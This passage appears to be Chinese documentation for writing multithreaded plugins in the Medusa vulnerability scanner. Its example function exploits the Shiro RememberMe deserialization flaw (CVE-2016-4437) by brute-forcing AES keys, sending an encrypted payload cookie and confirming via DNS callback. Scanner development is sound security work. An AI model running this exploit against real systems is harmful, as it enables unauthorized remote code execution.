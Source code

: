 ```python
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorLog().Write("Plugin Name:"+_+" ThreadPool ",e)  # 调用写入类传入URL和错误插件名
```

##### 注意点：

- 所有全局变量都存放这边，也就是说这个参数并不会在后面需要改变了，比如处理好的目标连接`payload_url `、**ysoserial.jar**的路径地址`YsoserialPath`、循环使用**Key**的列表`CipherKey`等参数都存放到这个函数中
- 循环调用需要在`try....except`中
- 如果所执行的代码在其他线程中的判断也能找到的话，该代码需要写在`for`循环中，比如上面的`Dnslog()`函数，如果所有线程都使用同一个DNSLOG的话就会导致如果其中一个执行成功，后面的所有线程都能找到请求的这个值，导致大量的误报
- 每个多线程必须`for`循环上面定义一个 `ThreadPool()`线程池，然后使用进程池中的`Append()`函数发送到进程池中，最后循环结束后调用线程池中的`Start(10)`函数来启动所有的线程
- `Append()`函数的第一个参数必须是需要调用的函数，这边统一叫做`task`函数，传入的参数必须添加`Uid=kwargs.get("Uid")`和`Sid=kwargs.get("Sid")`参数
- `task`函数需要使用到的参数、初始化的后的类都必须使用`Append()`函数来传入，具体方式见上述函数用法

### task函数

```python
def task(**kwargs):
    DL=kwargs.get("DL")
    payload_url=kwargs.get("payload_url")
    key=kwargs.get("key")
    url=kwargs.get("url")
    try:
        encryptor = AES.new(base64.b64decode(key), kwargs.get("AES_MODE"), kwargs.get("AES_IV"))
        base64_ciphertext = base64.b64encode(kwargs.get("AES_IV") + encryptor.encrypt(kwargs.get("file_body")))
        cookies = {"jeesite.session.id": "3f8a61ec-27e2-425c-9724-f96ba0c1e512",
                   "rememberMe": base64_ciphertext.decode()}
        requests.get(payload_url, cookies=cookies,  proxies=kwargs.get("proxies"), timeout=6, verify=False)
        time.sleep(5)
        if DL.result():
            Medusa = "{} 存在ShiroRememberMe反序列化命令执行漏洞(CVE-2016-4437)\r\n验证数据:\r\n漏洞位置:{}\r\n秘钥:{}\r\nHeaders请求头:{}\r\nDNSLOG请求值:{}\r\nDNSLOG数据:{}\r\n".format(
                url, payload_url, key, cookies, DL.dns_host(), DL.dns_text())
            _t = VulnerabilityInfo(Medusa)
            VulnerabilityDetails(_t.info, url, Uid=kwargs.get("Uid"),Sid=kwargs.get("Sid")).Write()  # 传入url和扫描到的数据
            WriteFile().result(str(url), str(Medusa))  # 写入文件，url为目标文件名统一传入，Medusa为结果
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorHandling().Outlier(e, _)
        ErrorLog().Write("Plugin Name:" + _ + " || Target Url:" + url, e)  # 调用写入类传入URL和错误插件名
```

这个函数把之前**常规插件模板**中的`medusa`函数的核心请求调用到这边

##### 注意点：

- 如果多个地方需要使用的参数或者初始化的类，并且是从**多线程模板**中的`medusa`函数传入的必须在最开始的地方获取这样可以减少开销，比如上面的`url`参数、`DL`类的地址
- 所有从**多线程模板**中的`medusa`函数传入的参数必须使用`kwargs.get("XXXXX")`的方式来获取
- **常规插件模板**中写入数据库的`VulnerabilityDetails(_t.info, url,**kwargs).Write()`类初始化传入的`**kwargs`值必须替换，整体替换为`VulnerabilityDetails(_t.info, url, Uid=kwargs.get("Uid"),Sid=kwargs.get("Sid")).Write()`
